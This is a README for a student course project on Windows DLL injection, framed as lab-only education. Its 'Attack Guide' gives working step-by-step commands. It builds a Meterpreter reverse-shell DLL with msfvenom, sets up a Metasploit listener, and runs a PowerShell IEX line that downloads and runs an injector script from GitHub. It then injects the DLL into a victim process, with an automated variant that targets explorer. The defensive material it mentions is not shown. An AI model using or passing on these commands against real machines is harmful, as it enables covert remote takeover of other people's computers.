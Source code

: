 

# DLL Injection

This project was developed for the **Security of Systems and Networks** curricular unit in the **Master’s in Electrical and Computer Engineering** at [FEUP](https://sigarra.up.pt/feup/en/ucurr_geral.ficha_uc_view?pv_ocorrencia_id=516519).

The course aims to familiarize students with the limitations of protocols, services, systems, and communication infrastructure when faced with motivated attackers, and with countermeasures to mitigate those threats. Topics include threat modeling, attacks across the TCP/IP stack, intrusion detection, access control, VPNs, and secure protocol design.

For the final project, an implementation of a controlled **DLL injection** proof-of-concept targeting Windows 10 in a safe, laboratory environment. The demonstration injects a DLL payload (used only for academic testing) to illustrate how an attacker might obtain remote access and how such an attack can be detected and mitigated. The experiment used a Meterpreter-type payload in a contained setup to validate detection and defense strategies rather than to facilitate malicious activity.

Through this project, I gained practical experience in:

- Windows process internals and dynamic-link library (DLL) mechanisms
- Common attack vectors and their limitations (payload delivery, injection techniques, and persistence considerations)
- Defensive measures and mitigation strategies (process hardening, application whitelisting, endpoint detection, and proper logging)
- Threat modeling and ethical, lab-based security testing practices

[For a full overview of the project, see the PDF here](https://drive.google.com/file/d/19SYEOaJCezkW4TYwcMkxOzta676CVARS/view?usp=sharing) or in the pdf folder.
> **Note:** This work was performed strictly for educational purposes in a controlled lab environment. Implementation details and exploit code are documented only within the repo for academic review and are not intended for malicious use.



## Attack Guide
### Creation of the DLL and setup of the listener

Open Kali Linux terminal and type the following command:

```
  msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=<SOME_PORT> -f dll > <OUTPUT_PATH>
```

Once the DLL is created in the output path specified, copy it to a USB storage device.

After that, we need to setup the listener. Firstly, open the Metasploit Framwork console by typing the command:

```
  msfconsole
```
Once it opens, select usage of "exploit/multi/handler" module:

```
  use exploit/multi/handler
```

Then, set the payload used to create the DLL file:

```
  set payload windows/x64/meterpreter/reverse_tcp
```

Now set your IP:

```
  set lhost <YOUR_IP>
```

And the port specified previously:

```
  set lport <SOME_PORT>
```

Finally to start listening just execute:

```
  exploit
```

As soon as the victim's machine has the DLL injected the connection will establish and you should see something like this.

![App Screenshot](https://raw.githubusercontent.com/GVO72/SSR_FP/main/Images/listener_established_conn.png)

### DLL injection in victims PC - Manually

Insert the USB storage device and open Powershell.

Now run the command below, select a process where you will inject the DLL and anotate its pid.

```
  ps
```

After that, enable TLS 1.2 with the command:

```
  [Net.ServicePointManager]::SecurityProtocol = [Net.ServicePointManager]::SecurityProtocol -bor [Net.SecurityProtocolType]::Tls12
```

Download the injector provided in this repository:

```
  IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/GVO72/SSR_FP/main/Invoke-DllInjection.ps1')
```

And finally inject the malicious DLL with the command:

```
  Invoke-DllInjection -ProcessID <selected_pid> -Dll <path_of_the_dll>
```

If everything works as expected you should see something like this.

![App Screenshot](https://raw.githubusercontent.com/GVO72/SSR_FP/main/Images/ps_comands.png)

### DLL injection in victims PC - Script automated

If the victim's machines allows Powershell scripts to be executed you can simply download our script that does the the injection commands for you. Basically it searches for the pid of "explorer" and injects the DLL that he presumes to be in D:\ and is named "inject.dll". You can change the path to your DLL's name and path.
